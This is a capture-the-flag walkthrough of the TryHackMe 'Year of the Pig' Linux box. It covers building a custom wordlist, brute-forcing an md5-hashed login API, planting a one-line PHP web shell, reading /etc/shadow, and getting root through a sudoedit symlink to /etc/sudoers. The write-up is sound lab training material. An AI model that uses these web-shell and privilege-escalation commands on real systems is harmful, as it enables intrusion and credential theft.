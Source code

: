 # Year of the Pig Writeup | TryHackMe



<pre>
</pre>



- OS: _Linux_
- Difficulty: _Hard_
- Creator: [_MuirlandOracle_](https://tryhackme.com/p/MuirlandOracle)
- TryHackMe: [https://tryhackme.com](https://tryhackme.com/)

<pre>
</pre>

Year of the Pig is rated as a hard linux machine. First step needed some custom wordlist generation and a custom script to brute force the password of the user then some basic linux privilege escalation that we are gonna get into.



## Nmap



![Image](https://i.imgur.com/KZNXFNL.png)



We can see that there are just 2 port open, those are 22 for SSH and 80 for http. And right from that nmap scan we can already see we have a possible username which is Marco. But anyways we go on to enumerate port 80 more.

## Web

On the front page we can see that Marco talks about planes a lot so we can surely say he loves them.

![Image](https://i.imgur.com/EjEg6iB.png)

Running gobuster we just get `/login.php` and `/api` that are interesting. Going to `/login.php` and trying some default credentials we get something interesting in the response.

![Image](https://i.imgur.com/psMLDc6.png)

It says `Remember that passwords should be a memorable word, followed by two numbers and a special character` , so that is hinting towards brute force of the login page, and also we need a custom wordlist. So to generate the wordlist as the login page says we need the following format:

```
{Memorable Word}{2 Numbers}{A special character} # For an example Marco99!
```

We can easily just guess the special character and the 2 numbers as the numbers go from 00 to 100, but we need a memorable word, and if we remember from earlier, Marco loves planes and talks about them a lot on the main page, so lets get some words from the page.

![Image](https://i.imgur.com/DpFS0QH.png)

Some words stand out, like the ones `Savoia`, `Macchi` and `Curtiss` so we should remember these three. Then I go on to create a python script to help me generate my custom wordlist:

![Image](https://i.imgur.com/j7ukYP8.png)

So for the input to the script we need to give it a wordlist containing just some basic words and then we give it the name to output the wordlist to.  The input wordlist I will use would look something like this:

![Image](https://i.imgur.com/iaBwpq9.png)

I named the file `input.wordlist`. Then we can run the python script with the syntax:

```
python3 generate-wordlist.py input.wordlist custom_wordlist.out
```

After running that command we get a file `custom_wordlist.out` that we can use as the wordlist to brute force the login password. But now we need to find a way to brute force the login page. We can use `BurpSuite` to see how does the web login page make a request towards the back-end. When intercepting the login request we can see the following:

![Image](https://i.imgur.com/oEdsI7o.png)

We see that it makes a POST request to /api/login with json in the data, that json contains username and the password, but that password is not a clear-text password, it is actually a md5 hash of the password we entered. So now I wrote yet another python script but this time to brute force the credentials. My script looks like this:

![Image](https://i.imgur.com/OYRfC5g.png)

The script takes 3 arguments, the first one is the IP of the machine, then it takes the wordlist to use and then it takes the username to brute force. The script is just going through each password in the wordlist and md5 hashing it then sending a POST request to /api/login with the json data. So when we run this script with the wordlist we generated earlier we get a hit:

![Image](https://i.imgur.com/l5wAYn6.png)

After we login we see that we can run system commands, but commands seem very limited, so there is no way I could get a reverse shell from there, and later when we look at the files we see that actually there are just 5/6 certain commands we can run and that's it, so we can try SSH with the credentials we right now have.

![Image](https://i.imgur.com/bimDPAD.png)

And we successfully get into the box as user  `marco`.

## Privilege escalation

After some basic privilege escalation attempts, like `sudo -l`, finding SUID binaries with the command:

```
find / -perm -4200 -type f 2>/dev/null
```

we don't seem to find anything, but then enumerating the filesystem we find an interesting file inside /var/www which is named `admin.db` but only user `www-data` can read it, so we need to get www-data somehow. And if we remember from earlier when running the command `id` we can see that we are in the `web-developers` group, so that hints that we can probably write files inside /var/www/html, so I try just that:

```
echo '<?php system($_GET['c']); ?>' > /var/www/html/ryaagard.php && chmod 777 /var/www/html/ryaagard.php
```

After running that command we wrote a file called `ryaagard.php` inside the /var/www/html and then also ran `chmod 777` on it so any user can read the file and write to it. Then going over to `http://<MACHINE-IP>/ryaagard.php?c=id` we get code execution!

![Image](https://i.imgur.com/e6tW8dv.png)

So now we can read the `admin.db` file we found, I transfer it to my machine in the following screenshot and then open it in sqlite3:

![Image](https://i.imgur.com/YXisVTD.png)

We can see there is a hash for curtis user, or there is 2 for some reason, anyways we take both to crackstation and 1 of those hashes gives us a clear-text password.

![Image](https://i.imgur.com/sORPMx8.png)

And the new credentials we found are `curtis:[REDACTED]`, with those we can run `su - curtis` on `marco` SSH session to get to `curtis` user.

As user `curtis` we run `sudo -l` and we get the following output:

![Image](https://i.imgur.com/8nnPaFG.png)

We can run `sudoedit /var/www/html/*/*/config.php` as any user on the box. But as `curtis` we can't write to /var/www/html, but `marco` can. So we run the next command as `marco`:

```
cd /var/www/html/ && mkdir -p temp/temp
```

to create the 2 directories. After that we think of what can we actually do with this sudoedit as root, and I remembered symbolic links. Basically we create a symbolic link called `config.php` inside /var/www/html/temp/temp/ and link it to /etc/shadow, and we can do that by running the following command as `marco` user:

```
ln -s /etc/shadow /var/www/html/temp/temp/config.php
```

After we ran that command we go over to user `curtis` and run:

```
sudoedit /var/www/html/temp/temp/config.php
```

And we see the contents of /etc/shadow!

![Image](https://i.imgur.com/safRG77.png)

To get root user I run to following commands:

(user `marco`)

```
ln -s /etc/sudoers /var/www/html/temp/temp/config.php
```

(user `curtis`)

```
sudoedit /var/www/html/temp/temp/config.php
```

And then we add this line anywhere in the file:

```
curtis ALL=(ALL) NOPASSWD:ALL
```

and save that file.

Then we can just run `sudo bash` as user `curtis`.

![Image](https://i.imgur.com/VnMHOaw.png)

And we successfully root the machine!

<pre>
</pre>

## Contact

- Twitter: [_ryaagard_](https://twitter.com/ryaagard)
- Discord: *ryaagard#5027*

